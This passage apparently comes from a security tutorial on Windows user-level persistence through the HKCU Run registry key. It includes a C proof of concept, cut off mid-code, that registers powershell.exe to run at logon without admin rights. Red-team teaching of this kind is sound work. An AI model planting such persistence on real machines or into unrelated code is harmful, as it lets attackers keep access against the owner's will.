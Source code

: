 Well, getting admin access directly is rare, so let's setup some userland persistence now.

### User Level Persistence

Implementing the same technique in userland is impossible, because we cannot modify registry keys inside `HKEY_LOCAL_MACHINE`, however, we can establish persistence using the `HKEY_CURRENT_USER` hive, since the current user can actively influence the settings there. `HKEY_CURRENT_USER` (`HKCU`) is a registry hive in the Windows Registry that stores configuration settings and preferences specific to the currently logged-in user. Unlike `HKEY_LOCAL_MACHINE`, which contains system-wide settings, `HKCU` stores settings that are unique to each user profile. This registry hive is mainly used for user preferences, application settings, desktop customization and more.

Moving on to the persistence landscape, following the same logic as the previous example, there is this registry path: `HKEY_CURRENT_USER\SOFTWARE\Microsoft\Windows\CurrentVersion\Run`.

This path may contain multiple keys. The interesting part is that no matter what is added, if it is a valid path to binary, it will get executed.

!!!
The registry key name does not matter in this scenario.
!!!

Since in this demo we want to add and not modify a key, the [RegCreateKeyExA](https://learn.microsoft.com/en-us/windows/win32/api/winreg/nf-winreg-regcreatekeyexa) Win32 API needs to be introduced:

```C
LSTATUS RegCreateKeyExA(
  [in]            HKEY                        hKey,
  [in]            LPCSTR                      lpSubKey,
                  DWORD                       Reserved,
  [in, optional]  LPSTR                       lpClass,
  [in]            DWORD                       dwOptions,
  [in]            REGSAM                      samDesired,
  [in, optional]  const LPSECURITY_ATTRIBUTES lpSecurityAttributes,
  [out]           PHKEY                       phkResult,
  [out, optional] LPDWORD                     lpdwDisposition
);
```

This API, as the name suggest, allows us to create a registry key inside the specified path. Using the docs, I came up with the following POC to add remote key:

```C
#include <windows.h>
#include <stdio.h>

// This POC executes powershell.exe when the specific user logs in again
// It does not require administrative privileges
// https://youtu.be/VqDY2Tfz6Qw?t=225


int main() {
    HKEY hKey;
    LPCSTR subKey = "SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Run";
    LPCSTR valueName = "test";
    LPCSTR valueData = "powershell.exe";

    LONG openResult = RegCreateKeyExA(HKEY_CURRENT_USER, subKey, 0, NULL, REG_OPTION_NON_VOLATILE, KEY_SET_VALUE, NULL, &hKey, NULL);
    if (openResult != ERROR_SUCCESS) {
        printf("Error creating/opening registry key. Error code: %d\n", openResult);
        return 1;
    }

    LONG setResult = RegSetValueExA(hKey, valueName, 0, REG_SZ, (BYTE*)valueData, strlen(valueData) + 1);
    if (setResult != ERROR_SUCCESS) {
```